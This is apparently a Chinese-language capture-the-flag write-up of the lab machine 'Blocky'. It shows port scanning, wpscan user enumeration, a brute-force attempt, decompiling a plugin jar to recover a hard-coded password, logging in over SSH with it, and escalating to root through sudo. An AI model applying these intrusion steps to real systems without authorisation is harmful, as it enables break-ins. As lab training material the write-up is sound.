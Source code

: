```yaml
---
title: Blocky（源码泄露、java反编译）
categories:
- training
tags:
- training
- cms
- linux
---
```


10.10.10.37 
```
21/tcp    open  ftp       ProFTPD 1.3.5a
22/tcp    open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http      Apache httpd 2.4.18 ((Ubuntu))
25565/tcp open  minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
```
---

## 21
```
ftp 10.10.10.37

searchsploit ProFTPD
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                     | exploits/linux/remote/36803.py

msfconsole
use exploit/unix/ftp/proftpd_modcopy_exec
执行失败
```
## 22
```
python ssh.py --userList /usr/share/wordlists/linux-user.txt --outputFile out.txt 10.10.10.37

ssh root@10.10.10.37
ssh_exchange_identification: Connection closed by remote host
```
ssh禁止过多的连接

## 80
```
Server: Apache/2.4.18 (Ubuntu)
WordPress version 4.8 

http://10.10.10.37:80
wpscan --url 10.10.10.37 --enumerate p
wpscan --url 10.10.10.37 --enumerate p --enumerate u

searchsploit wordpress Host Header Injection

WordPress 2.3-4.8.3 - Host Header Injection in Password Reset
```
手动检查了一个wpscan提示的可能漏洞，检查并没有，于是用burp scanner扫描一遍再说。

#### useful info
```
phpadmin vesion4.5.4（burp scanner扫描结果）
WordPress/4.8
http://10.10.10.37/phpmyadmin/index.php
http://10.10.10.37/wp-login.php
http://10.10.10.37/wp-links-opml.php
http://10.10.10.37/plugins/
```
## 25565
searchsploit Minecraft
经过搜索，好像是一个游戏，“《我的世界》是一款沙盒游戏。。。”
```
nc -nv 10.10.10.37 25565
wget http://10.10.10.37:25565
```
--- 

## writeup
```
wpscan --url 10.10.10.37 --enumerate
[+] Notch
 | Detected By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```
获得一个用户名
- trying1: 弱口令检查
wpscan --url http://10.10.10.37/wp-login.php --wordlist /usr/share/wordlists/rockyou.txt --username Notch
失败

---

在plugin目录下下载jar文件，unzip解压，jad反编译，获得一个口令
![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-19/11.PNG)

以/root/8YsqfCTnvxAUeduzjNSXe22，登录phpmyadmin成功。

```
ssh root@10.10.10.37
ssh Notch@10.10.10.37
ssh notch@10.10.10.37，成功
```
提权：
```
whoami 以notch普通用户登陆

sudo -l 
响应，说明该用户可以运行任何命令
User notch may run the following commands on Blocky:
    (ALL : ALL) ALL

groups notch 查看该用户所在的组，有sudo组

notch : notch adm cdrom sudo dip plugdev lxd lpadmin sambashare

sudo su
```
以前用过[该方式提权](https://whale3070.github.io/training/2017/11/02/g0rmint-%E4%B8%80%E5%8F%A5%E8%AF%9D%E5%86%99%E5%85%A5log-%E6%8F%90%E6%9D%83/)。

## 总结
第一次尝试了java反汇编

wpscan可以
